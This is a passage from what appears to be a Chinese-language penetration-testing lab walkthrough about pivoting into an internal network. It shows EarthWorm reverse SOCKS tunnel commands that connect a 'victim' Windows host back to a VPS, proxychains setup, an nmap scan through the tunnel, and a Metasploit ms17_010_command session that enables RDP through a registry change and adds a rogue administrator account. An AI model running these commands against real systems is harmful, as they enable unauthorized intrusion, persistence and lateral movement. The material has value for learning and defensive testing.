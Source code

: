 公网vps上开启，添加一个转接隧道，监听1234，把本地1234端口收到的代理请求转交给1080端口，这里1234端口只是用于传输流量。

```
root@VM-4-9-ubuntu:~/ywh# chmod 777 ./ew_for_linux64 
root@VM-4-9-ubuntu:~/ywh# ./ew_for_linux64 -s rcsocks -l 1080 -e 1234
rcsocks 0.0.0.0:1080 <--[10000 usec]--> 0.0.0.0:1234
init cmd_server_for_rc here
start listen port here
```

之后上传ew_for_Win.exe到win7受害主机，并在win7上面启动socks5服务器并反弹到vps上面

```
 ew_for_Win.exe -s rssocks -d 42.192.137.212 -e 1234
```

此时公网vps会弹出执行成功

```
rssocks cmd_socket OK!
```

再配置好proxychains：

```
vim /etc/proxychains4.conf
最后一行
[ProxyList]
socks5 42.192.137.212 1080
```

这样内网主机win2003就可以通过vps与攻击机kali通信了，这里要知道，我们在msf上设置路由是为了让msf可以通信到内网其他主机；而我们设置代理是为了让攻击机上的其他工具可以通信到到内网的其他主机。

用nmap扫描win2003的3389端口，发现其没有开启：

```
 proxychains4 nmap -p 3389 -Pn -sT 192.168.117.128 # -Pn和-sT必须要有
 PORT     STATE  SERVICE
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 13.12 seconds
```

我们用auxiliary/admin/smb/ms17_010_command模块执行命令将其开启：

并添加一个新用户使用net命令

```
net user whamy Ywh!23456 /add
net localgroup administrators whamy /add
```

命令行启用3389端口

```
meterpreter > use auxiliary/admin/smb/ms17_010_command
Loading extension auxiliary/admin/smb/ms17_010_command...
[-] Failed to load extension: Unable to load extension 'auxiliary/admin/smb/ms17_010_command' - module does not exist.
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use auxiliary/admin/smb/ms17_010_command
msf6 auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.117.128
rhosts => 192.168.117.128
msf6 auxiliary(admin/smb/ms17_010_command) > set CO
set COMMAND         set CONNECTTIMEOUT  set CONSOLELOGGING  
msf6 auxiliary(admin/smb/ms17_010_command) > set CO
set COMMAND         set CONNECTTIMEOUT  set CONSOLELOGGING  
msf6 auxiliary(admin/smb/ms17_010_command) > set COMMAND REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
COMMAND => REG ADD HKLMSYSTEMCurrentControlSetControlTerminal Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```
